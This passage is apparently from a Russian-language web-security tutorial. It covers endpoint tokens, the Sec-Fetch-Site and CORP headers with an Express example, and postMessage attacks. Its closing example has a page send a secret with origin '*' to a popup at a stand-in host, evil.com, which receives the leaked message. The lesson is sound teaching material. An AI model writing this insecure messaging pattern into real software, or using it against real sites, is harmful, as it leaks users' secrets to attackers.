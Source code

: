 В некоторых случаях для защиты наших конфиденциальных конечных точек может быть реализован механизм специальных уникальных токенов.

```
/api/users/1234?token=be930b8cfb5011eb9a030242ac130003
```

- Токен должен быть длинным и уникальным
- Серверная часть должна правильно подтвердить токен, переданный в запросе

Несмотря на то, что это довольно эффективное решение, при его правильной реализации возникают значительные накладные расходы.

#### Извлечение метаданных (Sec-Fetch-Site)

Этот заголовок указывает, откуда был отправлен запрос, и принимает следующие значения:

- `cross-site`
- `same-origin`
- `same-site`
- `none` - пользователь напрямую перешел на страницу

Как и Sec-Fetch-Dest, этот заголовок автоматически добавляется браузером к каждому запросу и является частью стандарта Fetch Metadata. Пример использования:

```javascript
app.get('/api/users/:id', authorization, (req, res) => {
    if (req.get('Sec-Fetch-Site') === 'cross-site') {
        return res.sendStatus(403);
    }

    // ... more code

    return res.send({ id: 1234, name: 'John', role: 'admin' });
});
```

#### Cross-Origin-Resource-Policy (CORP) Политика в отношении перекрестного происхождения ресурсов

Если сервер вернет этот заголовок с соответствующим значением, браузер не будет загружать ресурсы с нашего сайта или источника (даже статические изображения) в другое приложение. Возможные значения:

- `same-site`
- `same-origin`
- `cross-origin`

Узнайте больше о CORP [здесь](https://resourcepolicy.fyi/).

## Атаки на почтовые сообщения

Иногда в контролируемых ситуациях нам хотелось бы, несмотря на SOP, обмениваться информацией между разными источниками. Мы можем использовать механизм почтовых сообщений. Смотрите пример ниже:

```javascript
// Origin: http://example.com
const site = new URLSearchParams(window.location.search).get('site'); // https://evil.com
const popup = window.open(site);
popup.postMessage('secret message!', '*');

// Origin: https://evil.com
window.addEventListener('message', e => {
    alert(e.data) // secret message! - leak
});
```

